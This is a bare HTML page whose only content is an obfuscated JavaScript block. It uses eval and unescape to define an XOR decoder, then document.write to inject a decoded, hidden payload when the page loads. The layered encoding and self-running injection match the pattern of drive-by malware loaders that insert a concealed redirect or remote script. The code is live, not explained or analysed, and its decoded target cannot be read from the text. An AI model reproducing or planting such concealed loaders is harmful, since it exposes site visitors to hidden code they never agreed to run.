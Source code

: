 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%63%34%62%34%39%36%39%38%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%31%31%33%37%38%30%33%32%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%35%35%33%32%38%32%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%35%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%63%34%62%34%39%36%39%38%28%27') + '%44%7a%6f%77%6d%72%79%20%74%65%71%64%78%63%6e%6d%42%24%68%66%7e%63%7b%6a%7f%6c%70%7b%20%43%11%08%7c%6b%76%6a%76%74%31%74%76%6f%66%7a%69%74%76%36%6e%75%62%69%47%25%6a%79%7a%72%3f%31%31%35%3a%33%39%3d%38%32%39%3f%3f%6a%6e%36%65%71%76%70%63%7b%6f%6d%69%7f%33%78%7b%7c%36%6e%69%6e%66%6f%44%77%6c%6b%6f%72%67%6c%61%40%33%3f%3a%35%28%61%6b%6e%61%6d%6b%4a%34%33%3f%39%35%24%47%12%0a%44%37%7a%60%75%6b%77%7e%4311378032%35%32%37%30%33%37%30' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</html>
